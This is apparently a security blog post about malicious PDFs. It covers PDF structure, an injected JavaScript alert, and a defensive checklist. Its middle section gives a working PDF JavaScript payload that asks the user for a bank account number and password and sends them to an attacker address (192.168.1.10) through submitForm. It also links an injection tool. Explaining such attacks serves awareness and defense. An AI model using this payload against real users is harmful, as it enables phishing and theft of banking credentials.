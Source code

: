 ```yaml
---
title: The Dark Side of PDFs, Understanding and Protecting Against Malicious Exploits
layout: post
post-image: https://github.com/5afagy/5afagy.github.io/assets/115117722/72041fc6-d851-4c23-9a2b-f349d0428336
description: In this blog post, we dive into the often-overlooked dangers of PDF files, revealing how they can be used as a tool for cyber attacks. We explore various techniques that attackers use to exploit PDF vulnerabilities, such as injecting malicious JavaScript code, stealing credentials, and embedding harmful links.
tags:
- how to
- hack
- using
- pdf

---
```


### Table of Contents

 [Introduction](#introduction)
 [PDF Structure](#pdf-structure)
 [PDF Injection: Exploiting Popup Windows](#pdf-injection-exploiting-popup-windows)
 [The "alert('Khafagy_Was_Here')" of PDF Injection](#the-alertkhafagy_was_here-of-pdf-injection)
 [Injecting Code into PDFs](#injecting-code-into-pdfs)
 [Example: Creating an Alert Box](#example-creating-an-alert-box)
 [Stealing Credentials via PDF](#stealing-credentials-via-pdf)
 [Scenario: Stealing Bank Account Credentials](#scenario-stealing-bank-account-credentials)
 [Example JavaScript Code](#example-javascript-code)
 [Protecting Against PDF Exploits](#protecting-against-pdf-exploits)
 [Conclusion](#conclusion)
 [References](#references)

### Introduction

In the realm of cybersecurity, PDFs are often seen as benign documents used for sharing information. However, these seemingly innocuous files can be weaponized to carry out various malicious activities. In this blog post, we will delve into the world of PDF hacking, exploring how attackers exploit PDF files, the techniques they use, and how you can protect yourself from these hidden threats.

### PDF Structure
![image](https://github.com/5afagy/5afagy.github.io/assets/115117722/202e2826-b32f-4ad5-920e-7e60ea8f51f1)

The basic structure of a PDF file includes:

1. **Header**: Specifies the version number of the PDF specification used in the document.

2. **Body**: Contains objects such as text streams, images, and multimedia elements that make up the document's content.

3. **Cross-Reference Table (xref)**: Provides references to all objects in the document, enabling random access to objects.

4. **Trailer**: Specifies how the application should locate the cross-reference table and other special objects.

#### Example: Header

The header of a PDF file specifies the version number:

```
%PDF-1.3
```

#### Example: Cross-Reference Table

The cross-reference table allows random access to objects in the file:

```
xref
0 1
0000000023 65535 f
3 1
0000025324 00000 n
...
```

#### Example: Trailer

The trailer section specifies important keys:

```
trailer
<<
/Size 22
/Root 2 0 R
/Info 1 0 R
>>
startxref
24212
%%EOF
```

### PDF Injection: Exploiting Popup Windows

Popup windows, or dialogs, play a crucial role in Acrobat's interactivity, providing users with important information and collecting input. Acrobat offers various types of built-in popup windows, such as alerts, responses, and file opens, along with functions for creating custom dialogs.

#### The "alert('Khafagy_Was_Here')" of PDF Injection

We'll demonstrate how to create a basic "alert('Khafagy_Was_Here')" PDF injection and then enhance it to inject JavaScript capable of stealing credentials and opening malicious links.

#### Injecting Code into PDFs

Similar to XSS injection in web applications, we can inject malicious code into a JavaScript function call within a PDF. It's essential to ensure correct syntax, as the injection occurs inside an object, such as a JavaScript action, text stream, or annotation URI.

#### Example: Creating an Alert Box

To create a simple alert box in a PDF, we use the `app.alert()` function:

```pdf
<<
/Type /Action
/S /JavaScript
/JS (app.alert('Khafagy_Was_Here');)
>>
```

This code triggers an alert box displaying 'Khafagy_Was_Here' when the PDF is opened.

Injecting JavaScript into PDFs allows attackers to execute various actions, including stealing credentials and opening malicious links. Understanding these vulnerabilities is crucial for securing PDFs against such attacks.

![Screenshot_2024-05-27_20-20-56](https://github.com/5afagy/5afagy.github.io/assets/115117722/ffa9cfb9-67da-40b7-a956-3b3b8a325cd1)

If you find it difficult to inject the script manually you can use [JS2PDFInjector](https://github.com/cornerpirate/JS2PDFInjector) tool.


### Stealing Credentials via PDF

One common method used by attackers to steal sensitive information, such as bank account credentials, is through PDF files. Attackers can create PDFs that prompt users to enter their account information, which is then sent to the attacker's server. Here's how it works:

#### Scenario: Stealing Bank Account Credentials

1. **Prompting for Account Details**: The attacker embeds JavaScript in the PDF to create a dialog box asking the user to enter their bank account number and password.

2. **Collecting User Input**: The JavaScript code uses the `app.response()` function to collect the user's input and store it in variables (`account` and `password`).

3. **Crafting the URL**: The attacker then crafts a URL that includes the collected account and password information, along with their server address.

4. **Submitting the Form**: Finally, the JavaScript uses the `submitForm()` function to send the collected information to the attacker's server as an HTML form.

#### Example JavaScript Code

```pdf
<<
/Type /Action
/S /JavaScript
/JS
(
var account = app.response ({ cQuestion:"Enter your Bank Account Number", cTitle:"Bank Account Details", bPassword:false, cDefault: global.cLastPswd, cLabel:"A/C"}); 
var password = app.response ({ cQuestion:"Enter your Bank Account Password", cTitle:"Bank Account Details", bPassword:true, cDefault: global.cLastPswd, cLabel:"Password"});
var cURL = "http://192.168.1.10:443" + "?" + "account=" + account + "&password=" + password;
this.submitForm({cURL: encodeURI(cURL), cSubmitAs: 'HTML'});
)
>>
```

This malicious code demonstrates how attackers can use PDF files to deceive users into providing their sensitive information. It underscores the importance of being cautious when interacting with PDF files from unknown or untrusted sources.


![image](https://github.com/5afagy/5afagy.github.io/assets/115117722/256fc6a5-67c1-408a-a3e0-7ade63f30873)

![image](https://github.com/5afagy/5afagy.github.io/assets/115117722/1f7a7d73-3f2d-4b47-a6e9-1785323973a1)

![image](https://github.com/5afagy/5afagy.github.io/assets/115117722/1f8e44ee-54b8-4284-8265-d4e1eaf6bb42)

### Protecting Against PDF Exploits

To defend against PDF exploits, it is crucial to take the following measures:

1. **Keep Software Updated**: Ensure that your PDF reader and related software are up-to-date. Updates often include security patches that protect against known vulnerabilities.

2. **Enable Security Features**: Utilize the security features available in your PDF reader. This may include disabling JavaScript execution, restricting file attachments, and enabling sandboxing or protected view modes.

3. **Exercise Caution**: Be wary of opening PDF files from unknown or untrusted sources. Consider scanning files with antivirus software before opening them.

4. **Use Secure Environments**: When possible, open PDF files in a secure, isolated environment, such as a virtual machine or sandbox, to mitigate the impact of any potential exploits.

### Conclusion

PDF files can indeed serve as a vector for cyber attacks, potentially leading to Remote Code Execution (RCE) if not handled carefully. Understanding how attackers exploit PDF vulnerabilities is essential for maintaining a secure digital environment. By adopting the aforementioned protective measures, you can significantly reduce the risk of falling victim to PDF-based exploits and safeguard your organization's sensitive information.

### References
- [Let’s write a PDF file](https://speakerdeck.com/ange/lets-write-a-pdf-file?slide=1)
- [Portable Data exFiltration: XSS for PDFs](https://speakerdeck.com/ange/lets-write-a-pdf-file?slide=1)
- [Learn and Play with PDF Source Code](https://github.com/angea/PDF101)
- [PDF - Mess With The Web](https://www.youtube.com/watch?v=WQsDpYnJT6A&ab_channel=OWASPFoundation)
- [The PDF invoice that phished you](https://blog.reversinglabs.com/blog/the-pdf-invoice-that-phished-you)
- [Malicious PDFs Revealing the Techniques Behind the Attacks](https://forums.hardwarezone.com.sg/threads/din-know-pdf-so-dangerous-one-can-actually-execute-malicious-code.6587298/)
- [Analyze Malicious PDFs](https://www.youtube.com/watch?v=AzXf7GV0jew&ab_channel=Intezer)
- [PDF_analysis](https://github.com/zbetcheckin/PDF_analysis)


